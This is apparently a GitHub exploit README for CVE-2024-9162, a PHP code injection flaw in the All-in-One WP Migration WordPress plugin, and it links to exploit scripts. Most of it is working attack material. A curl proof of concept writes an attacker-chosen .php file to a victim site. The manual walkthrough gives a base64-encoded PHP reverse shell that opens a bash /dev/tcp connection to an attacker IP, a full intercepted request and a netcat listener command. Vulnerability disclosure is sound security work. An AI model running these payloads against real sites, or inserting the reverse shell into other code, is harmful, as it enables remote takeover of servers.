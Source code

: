 # CVE-2024-9162
## All-in-One WP Migration and Backup <= 7.86 - Authenticated (Administrator+) Arbitrary PHP Code Injection

The [All-in-One WP Migration plugin for WordPress](https://wordpress.org/plugins/all-in-one-wp-migration/) is vulnerable to arbitrary PHP Code Injection due to missing file type validation during the export in all versions up to, and including, 7.86. This makes it possible for authenticated attackers, with Administrator-level access and above, to create an export file with the .php extension on the affected site's server, adding an arbitrary PHP code to it, which may make remote code execution possible.

### TL;DR Exploits
* [CVE-2024-9162.sh](https://github.com/d0n601/CVE-2024-9162/blob/main/CVE-2024-9162.sh)
* [CVE-2024-9162.py](https://github.com/d0n601/CVE-2024-9162/blob/main/CVE-2024-9162.py)

### Details
The `ai1wm_secret_key` is a 12 character alphanumeric string created when the plugin is initialized. The key is **never rotated**, **does not expire**, and is **stored plain text** in the `wp_options` table.

```sql
mysql> SELECT option_name,option_value FROM wp_options WHERE option_name='ai1wm_secret_key';
+------------------+--------------+
| option_name      | option_value |
+------------------+--------------+
| ai1wm_secret_key | PwrqqK3UHQJo |
+------------------+--------------+
1 row in set (0.00 sec)
```

### Basic Proof of Concept:
This will create a php file containing a call to `phpinfo();`, which can be replaced with a better payload as seen in the manual reproduction section. Notice there is no authorization required beyond the secret key parameter. 
```bash
VICTIM_URL=https://wordpress.hacker
XFILE_NAME=lolz.php
XDIRECTORY_NAME=testauto
SECRET_KEY=PwrqqK3UHQJo

PRIORITY_INT=30
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"

PRIORITY_INT=50
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"

PRIORITY_INT=60
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"
```
![Screenshot from 2024-08-13 15-36-42](https://github.com/user-attachments/assets/e76dd0f6-6bd0-4ae4-8e46-f9a19b523ca1)


### Manually To Reproduce:
It should be noted that the `php` file created via these steps will first appear in `wp-content/plugins/all-in-one-wp-migration/storage/EXPLOITDIR/EXPLOITFILE.php` before being deleted by the script and moved to `wp-content/ai1wm-backups/reverse_shell.php`. 

* Log in, Click all in one WP migration export to access the "Export Site" [page](https://wordpress.hacker/wp-admin/admin.php?page=ai1wm_export).
  * ![Screenshot from 2024-08-12 15-40-48](https://github.com/user-attachments/assets/ce50c0f7-fe04-4bbc-97b6-a9b5adfac357)

*  In the **Find * Replace with** `<another-text>` **in the database**.
  * Input `*` into the *Find* box.
  * Input your crafted php payload into  into the *Replae With* box (`phpinfo();`, web shell, etc).
    * Reverse Shell Example: `<?php eval( base64_decode('ZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMDAuODYvNDQ0NCAwPiYxJyAiKTs=')); ?>`. This will decode to `exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.100.86/4444 0>&1' ");`.
  *  ![Screenshot from 2024-08-12 15-38-01](https://github.com/user-attachments/assets/04a86c62-d011-416f-9986-9f3115d8fb84)
* Setup Burp or similar tool and begin to proxy the traffic, then click the green "Export To -> File" option.
  *  ![Screenshot from 2024-08-12 15-42-30](https://github.com/user-attachments/assets/38187eda-0ff9-4564-881d-d6545233f468)
  *  ![Screenshot from 2024-08-12 15-39-38](https://github.com/user-attachments/assets/2f4bcd32-2088-4fcf-a5cc-0b3446be64c9)
* Forward the first request: `POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/1.1`, without manipulation.
* Forward: `GET /wp-admin/admin-ajax.php?action=ai1wm_status&ai1wm_import=1&secret_key=OYXj1AIdQUnc&_=1723495770325 HTTP/2`.
* Intercepting the request to `POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/2`
   * Modify the `archive` parameter to whatever name you like, and the `.php` extension, and then forward the request.
   *  ```
        POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/2
        Host: wordpress.hacker
        Cookie: wordpress_sec_1e8abd3ff1d2f462f071b6ee87f18dce=admin%7C1723667674%7Czq81SUmQ7zq0jft2M2D19aFUOZDjhqND0rKqJp0XIrb%7Cc65dd152f0c184235df35d5dfa28c50624b9f9a2fb01efb5077b150df76d286f; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_1e8abd3ff1d2f462f071b6ee87f18dce=admin%7C1723667674%7Czq81SUmQ7zq0jft2M2D19aFUOZDjhqND0rKqJp0XIrb%7C5c992aef75e3896a0909b9d480ae9e6505d89428c6975a490c30ce5b791c6bfe; wp-settings-time-1=1723500701
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
        Accept: application/json, text/javascript, */*; q=0.01
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Referer: https://wordpress.hacker/wp-admin/admin.php?page=ai1wm_export
        Content-Type: application/x-www-form-urlencoded; charset=UTF-8
        X-Requested-With: XMLHttpRequest
        Content-Length: 883
        Origin: https://wordpress.hacker
        Dnt: 1
        Sec-Gpc: 1
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Te: trailers
              action=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+eval(+base64_decode('ZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMDAuODYvNDQ0NCAwPiYxJyAiKTs%3D'))%3B+%3F%3E&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=1j5v4ss1ls45&file=1&secret_key=OYXj1AIdQUnc&priority=10&archive=reverse_shell.php
       ```
    * ![Screenshot from 2024-08-12 15-28-15](https://github.com/user-attachments/assets/31b5137b-0467-403a-8b05-109d82f4c9d9)
    * Turn off interception and let all other requests flow through until the job is completed and a download button is presented on the screen.
      * ![Screenshot from 2024-08-12 15-30-06](https://github.com/user-attachments/assets/8b2498ad-3102-431d-8a18-db239dd5351d)
    * Notice that the link to the downoad is a link to a php file containing the payload `https://wordpress.hacker/wp-content/ai1wm-backups/reverse_shell.php`.
    * Fire up a netcat listener on an attacking machine to catch the reverse shell `nc -lnvp 4444`.
    * Click the download button and catch the reverse shell.
      *   ![Screenshot from 2024-08-12 15-34-27](https://github.com/user-attachments/assets/5ce09f7f-9886-4f1f-89a3-f7abbd674de9)



